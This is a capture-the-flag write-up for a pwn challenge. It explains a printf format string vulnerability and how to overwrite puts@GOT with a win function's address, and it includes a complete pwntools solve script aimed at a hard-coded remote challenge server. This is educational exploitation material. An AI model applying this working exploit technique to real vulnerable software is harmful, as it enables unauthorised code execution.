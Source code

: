 # Not Really AI
A pwn challenge. Just a simple format string exploit.

Protections: Partial RELRO, no PIE, therefore we can overwrite the GOT as it is not read-only.

When our input is asked for, it is printed out using printf without proper format strings.

Our input is put on the stack, so the program is vulnerable to arbtirary writes via `%n`.

There's no buffer overflow, and only one input, so we shouldn't be leaking anything.

We can send a simple format string overwrite payload to rewrite puts@GOT with the address of the function flaggy, and the flag will be yours.\
This works as puts@plt is called just after printf is called on our input, so we can overwrite the GOT entry with a different value.

Thus when the plt is called it will find a different GOT value and jump to that.

Here is the solve script:
```python
from pwn import *
e = ELF("./nra")
def getproc():
    return remote('95.216.233.106',43941)
    #return e.process()
def write_fmt(string):
    p = getproc()
    p.sendline(string)
    p.recvline()
    out = p.recv()
    p.close()
    return out
auto = FmtStr(execute_fmt=write_fmt)
writes = {e.got['puts']: e.sym['flaggy']}
payload = fmtstr.fmtstr_payload(auto.offset, writes)
p = getproc()
p.sendline(payload)
p.interactive()
```

